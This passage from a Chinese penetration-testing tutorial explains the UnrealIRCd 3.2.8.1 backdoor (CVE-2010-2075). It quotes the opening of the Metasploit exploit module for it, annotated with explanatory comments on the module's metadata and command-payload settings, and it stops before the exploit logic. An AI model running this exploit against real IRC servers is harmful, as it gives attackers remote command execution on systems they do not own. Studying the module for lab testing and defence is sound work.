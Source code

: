 
## 三、 渗透测试

### 3.1 渗透扫描

UnrealIrcd 是一个开源的 IRC 服务器，

Unreal Ircd 服务漏洞原理：

> Unreal Ircd 3.2.8.1 版本中，在 DEBUG3_DOLOG_SYSTEM 宏中包含外部引入的恶意代码，远程的攻击者能够利用这个潜在的木马执行任意代码。

漏洞索引及相关信息链接：

+ [CVE-2010-2075](http://www.cvedetails.com/cve/cve-2010-2075)
+ [OSVDB-65445](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor#)

漏洞攻击模块链接：

+ [unreal_ircd_3281_backdoor.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/irc/unreal_ircd_3281_backdoor.rb)


漏洞攻击模块代码简介（见注释中）：

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

# 引入必要的模块 `msf/core`
require 'msf/core'

# 定义 Metasploit 模块类
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  # 初始化模块，设定攻击模块的名称，描述，作者，License及漏洞索引等信息
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'UnrealIRCD 3.2.8.1 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the
        Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
        Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2010-2075' ],
          [ 'OSVDB', '65445' ],
          [ 'URL', 'http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt' ]
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              'RequiredCmd' => 'generic perl ruby telnet',
```